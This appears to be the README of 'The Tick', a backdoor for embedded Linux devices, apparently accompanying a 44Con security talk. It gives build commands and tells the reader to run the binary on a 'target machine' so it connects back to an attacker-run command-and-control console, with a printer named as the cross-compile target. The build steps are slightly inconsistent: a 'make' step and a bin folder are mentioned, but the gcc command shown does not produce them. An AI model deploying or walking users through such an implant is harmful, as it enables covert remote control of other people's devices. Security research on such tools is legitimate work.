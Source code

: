 # The Tick

A simple embedded Linux backdoor.


## Compiling

```
cd src
gcc -static ./*.h ./*.c -o ./ticksvc
```

Once the "make" command has run to completion, the compiled binary can be found at the "bin" folder. This is the binary you want to run on your target machine to control it remotely.

When cross-compiling for supported platforms, the dependency resolution and compilation is done automatically for you. Currently the only supported cross-compiling platform is the Lexmark CX310DN printer, but more devices will be added later. Consult the makefile for more details.

The command and control console is written in Python and therefore needs not be compiled.

## Installing

Obtaining persistence on the backdoor will depend heavily on the target platform, and therefore is not documented here.

On the target machine, run the backdoor binary with the following arguments:

```
./ticksvc ADDR PORT
```

Where "ADDR" and "PORT" must be replaced by the IP address and port where the command and console will be listening. The default port is 5555.

The command and control console requires no installation, but may have unresolved dependencies. Run the following command to ensure all dependencies are properly installed (note this does not need sudo):

```
pip install --upgrade -r requirements.txt
```

## Usage

To run the backdoor binary on the target platform, set the control server hostname and port as command line options. For example:

```
./ticksvc IP 5555
```

At the control server, you may want to run the console inside a GNU screen instance or similar:

```
sudo apt-get install screen
screen -S thetick ./thetick.py
```

That way you can detach from the console by pressing Control+A followed by D. You can return to the console later like this:

```
screen -r thetick
```

The Tick has been referenced in the following 44Con presentation by Daniel Romero and Mario Rivas:

[![](http://img.youtube.com/vi/plu7U0Sq9HQ/0.jpg)](http://www.youtube.com/watch?v=plu7U0Sq9HQ "Office Equipment: The Front Door To Persistence On Enterprise Networks - D. Romero and M. Rivas")

